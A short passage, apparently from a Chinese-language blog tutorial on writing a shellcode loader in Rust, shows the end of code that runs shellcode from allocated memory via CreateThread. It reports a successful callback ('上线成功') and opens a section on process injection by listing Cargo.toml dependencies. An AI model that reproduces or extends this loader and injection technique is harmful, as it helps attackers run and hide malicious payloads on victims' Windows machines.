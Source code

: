 ```bash
        let thread_exec = CreateThread(std::ptr::null_mut(), 0, Some(std::mem::transmute(mem_alloc)), std::ptr::null_mut(), 0, &mut thread_id);
        WaitForSingleObject(thread_exec, 0xFFFFFFFF);   //等待线程执行
    }
}
```

测试上线成功

[![](assets/1699257255-f9ae1a4a8b197bb11f298b30d0b0c365.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231104232143-dc6a4506-7b25-1.png)

## 进程注入

上面介绍了 shellcode 的直接执行，下面我们可以进行进程注入的操作，这里我们多引入一个==sysinfo==的库  
首先还是往==Cargo.toml==引入以下依赖

```bash
sysinfo = "0.29.10"
windows-sys = { version = "0.48.0", features = ["Win32_Foundation", "Win32_System_Threading", "Win32_Security", "Win32_System_Memory", "Win32_System_Diagnostics_Debug"] }
```
